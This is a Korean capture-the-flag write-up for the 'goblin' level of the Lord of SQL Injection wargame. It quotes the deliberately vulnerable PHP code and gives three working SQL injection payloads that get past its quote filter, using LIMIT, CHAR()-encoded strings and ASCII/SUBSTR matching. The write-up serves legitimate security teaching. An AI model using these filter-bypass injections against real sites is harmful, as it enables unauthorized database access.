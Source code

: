 # Lord of SQL Injection No.3 - goblin

## 문제 출제 의도

따옴표를 사용하지 않고 원하는 문자열을 SELECT 하도록 SQL을 조작할 수 있는지 확인한다.

## 소스 코드 분석

goblin 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
```
* GET방식으로 no를 받고, no에 `prob`, `_`, `.`, `(`, `)` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, no에 `'`, `"`, \` 가 들어 있으면 `No Quotes ~_~`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
```
* 받은 no가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "admin"이라는 값이 들어있음'이다.

-----

## Solution
    
1. LIMIT 구문 이용

    ```
    http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or 1=1 limit 1,1-- -
    ```
    ```sql
    select id from prob_goblin where id='guest' and no=-1 or 1=1 limit 1,1-- -
    ```

    LIMIT 구문을 이용한 SQL Injection이 잘 이해가 되지 않으면 [**2번 문제 - Cobolt**](https://gitlab.com/dsm-highschool/sql-injection-writeup/blob/master/12_%EC%9D%B4%EC%9E%AC%EC%84%9D/los_no2_cobolt.md)의 **Solution - 3. LIMIT 구문 이용** 부분을 참고하자.

2. CHAR() 함수 및 ASCII 코드 활용

    ```
    http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or id=char(97, 100, 109, 105, 110)-- -
    ```
    ```sql
    select id from prob_goblin where id='guest' and no=-1 or id=char(97, 100, 109, 105, 110)-- -
    ```

    이는 ASCII에서 10진수 표기를 문자 표기로 바꿔주는 MySQL 함수인 CHAR를 이용하여 id가 admin인 행을 찾아 선택하도록 만든다.
    
    ASCII에서, 'a'=97, 'd'=100, 'm'=109, 'i'=105, 'n'=110이다.
    
    따라서 이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

3. ASCII(), SUBSTR() 함수 및 ASCII 코드 활용

    ```
    http://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=-1 or ascii(substr(id, 1, 1))=97-- -
    ```
    ```sql
    select id from prob_goblin where id='guest' and no=-1 or ascii(substr(id, 1, 1))=97-- -
    ```

    이는 ASCII에서 문자 표기자 10진수 표기로 바꿔주는 MySQL 함수인 ASCII를 이용하여 id가 a로 시작하는 행을 찾아 선택하도록 만든다.

    이번에는 운이 좋아 a로 시작하는 첫번째 행이 admin이었지만, 만약 안되면 1번째 글자가 a, 2번째 글자가 d, 3번째 글자가 m, 4번째 글자가 i, 5번째 글자가 n인 행을 찾도록 조작하면 된다.
    
    ASCII에서, 'a'=97이다.
    
    따라서 이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.